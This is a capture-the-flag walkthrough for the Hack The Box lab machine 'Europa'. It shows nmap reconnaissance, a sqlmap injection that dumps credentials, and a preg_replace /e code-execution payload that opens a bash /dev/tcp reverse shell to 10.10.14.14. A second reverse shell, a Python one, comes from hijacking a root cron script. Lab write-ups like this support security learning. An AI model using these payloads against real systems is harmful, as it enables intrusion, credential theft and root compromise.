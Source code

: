 # Europa
#### 10.10.10.22

**Nmap**

```{r, engine='bash', count_lines}
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (EdDSA)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Issuer: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-19T09:06:22
| Not valid after:  2027-04-17T09:06:22
| MD5:   35d5 1c04 7ae8 0f5c 35a0 bc49 53e5 d085
|_SHA-1: ced9 8f01 1228 e35d 83d3 2634 b4c1 ed52 b917 3335
|_ssl-date: ERROR: Script execution failed (use -d to debug)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Opening :443 and :80 in browser doesn't give us anything relevant. However this line in the nmap scan looks interesting.

```
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
```

So lets change our hosts file accordingly and add:

```
10.10.10.22		admin-portal.europacorp.htb
```

Opening https://admin-portal.europacorp.htb now, redirects us to a login form. 
Lets see if the email or password is vulnerable to sql injection:

```
sqlmap -u https://admin-portal.europacorp.htb/login.php --data="email=abc'&password='" --dbms="MySQL" --technique=E  --dump --threads 8 --dbs

Database: admin
Table: users
[2 entries]
+----+----------------------+--------+---------------+----------------------------------+
| id | email                | active | username      | password                         |
+----+----------------------+--------+---------------+----------------------------------+
| 1  | admin@europacorp.htb | 1      | administrator | 2b6d315337f18617ba18922c0b9597ff |
| 2  | john@europacorp.htb  | 1      | john          | 2b6d315337f18617ba18922c0b9597ff |
+----+----------------------+--------+---------------+----------------------------------+
```

Awesome, we got a login name: **admin@europacorp.htb** and password hash: **2b6d315337f18617ba18922c0b9597ff**.
Decrypting the md5 hash with some online tools will translate to: **SuperSecretPassword!**
So our login is
**admin@europacorp.htb:SuperSecretPassword!**

Pretty sure we need to exploit the **OpenVPN Config Generator** located at https://admin-portal.europacorp.htb/tools.php. So after filling in a IP address a config gets generated with our IP address filled in at the locations of **ip_address**. After googling a bit we found out that the php function **preg_replace** is exploitable.

Okay intercepting the POST with BurpSuite and send it to the Repeater will leave us with a screen like this:
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/europa_burp.png "BurpSuite")

Passing the -e paramteter to the function will let us execute the replacements text. I only want it to be executed once so I picked a pattern that only occurs once. So I used **/remote_address/e** as the pattern and **phpinfo()** as the text. As you can see below, it executes perfectly.

![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/burp_info.png "phpinfo")

So lets put our payload in the text parameter which is as follows:

```
system("/bin/bash%20-c%20'bash%20-i%20>%26%20/dev/tcp/10.10.14.14/12345%200>%261'");
```
And send it while listening with netcat on port 12345
```
nc -nvlp 12345
```
![index.php](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Europa/images/shell.png "shell")

Perfect we got shell! We can find the user flag at /home/john/user.txt

```
2f8d40cc05295154a9c3452c19ddc221
```
Alright our next step is priv esc. 
There seems to be a directory called cronjobs lets see what is inside..

```
/var/www/cronjobs$ cat clearlogs
cat clearlogs
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
So apparently this script calls another script located at /var/www/cmd/logcleared.sh, lets see if we can make it spawn another reverse shell with python3.

So I created a logcleared.sh containing this code:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",12346));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
and did
```
chmod 777 logcleared.sh
```
After waiting a minute listening with netcat on port 12346 we got another reverse shell with root privileges. 
Now simply cat the root.txt at /root/ et voilà :
```
7f19438b27578e4fcc8bef3a029af5a5
```
